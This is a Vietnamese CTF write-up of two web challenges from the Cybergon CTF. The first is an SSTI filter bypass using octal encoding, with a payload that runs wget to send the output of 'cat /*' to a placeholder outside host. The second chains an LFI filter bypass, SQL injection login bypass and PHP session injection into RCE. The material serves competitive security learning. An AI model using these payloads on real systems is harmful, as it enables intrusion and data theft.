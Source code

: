 Website: https://cybergon.ctfd.io/challenges
# Web
## 1. Flappy Block v2
Website bị lỗi SSTI ở path `https://cybergon-flappy-block.chals.io/image?text={{ssti_payload}}`.

Nhận thấy website có những cơ chế sau:

+) Blacklist `_` `.` `|` `x`

+) Blacklist keywords `config`

+) Chuyển đổi ký tự: r->w, R->W, l->w, L->W, u->yu, U->yU

Do đó, hầu hết các attack vector đều đã bị chặn.

Solution: octal encoding

```
https://cybergon-flappy-block.chals.io/image?text={{%27%27[%27\137\137\143\154\141\163\163\137\137%27][%27\137\137\155\162\157\137\137%27][1][%27\137\137\163\165\142\143\154\141\163\163\145\163\137\137%27]()[140][%27\137\137\151\156\151\164\137\137%27][%27\137\137\147\154\157\142\141\154\163\137\137%27][%27popen%27](%27wget%20https://yourwebsitehere?d=`cat%20/*`%27)}}
```

Kinh nghiệm: Sử dụng octal encoding để bypass character blocking. Bài này mình đã mất rất nhiều thời gian tìm payload vòng tránh, các hàm chuyển đổi, các encoding như UTF-8 UTF-16 nhưng không được. Cuối cùng solution lại là octal encoding, rất phổ biến.

## 2. Cybergon's Blog
Website có form login và tiết lộ rằng có tài khoản `user:user`

![image](https://github.com/n0bitaemon/CTF-writeup/assets/103978452/58e108ff-4a5e-4905-bfcb-6dc9d10a31d0)

Sau khi login, ta thấy có path `https://cybergon-blog.chals.io/post.php?view=firstpost.md`. Tham số `view` có cơ chế phòng chống LFI bằng cách xóa các ký tự như `../`, `flag`, `passwd`, `var`, ...

Tuy nhiên, ta có thể bypass bằng cách dùng payload: `https://cybergon-blog.chals.io/post.php?view=....//....//....//....//etc/passpassswdwd`

![image](https://github.com/n0bitaemon/CTF-writeup/assets/103978452/ac8e972b-eca5-491e-9cba-a7834164d37d)

Tiếp theo cần tìm cách lấy tên file flag. Thử đọc file `/proc/self/fd/10` thì thấy có user session được lưu:

![image](https://github.com/n0bitaemon/CTF-writeup/assets/103978452/b870180f-112b-46f1-9b3c-1fcd1530dce3)

Như vậy, nếu có thể thay chèn PHP payload vào session thì ta có thể thực thi RCE. Nhận thấy không thể chèn php payload vào tham số `theme`.

Trong trang login, thử nhập username `user'` thì có lỗi `Wrong username/password combination.`. Nhưng khi nhập username `user"` thì có lỗi `User not exist, please register to continue!`. Thay với payload `user" or "1"="1` thì thấy login thành công. Như vậy ở đây có lỗi SQL injection.

Đăng nhập với username sau: `<?php echo 'triet' ?>" or "1"="1" limit 1 --`
Sau khi thành công, dùng LFI đọc file `/proc/self/fd/10`, ta thấy:

![image](https://github.com/n0bitaemon/CTF-writeup/assets/103978452/030dad59-f9c7-4b91-b81a-9435fdb298ca)

Như vậy ta đã RCE thành công => đọc flag thôi!

*Kinh nghiệm: Lợi dụng LFI đọc status của process (/proc/self/...)*

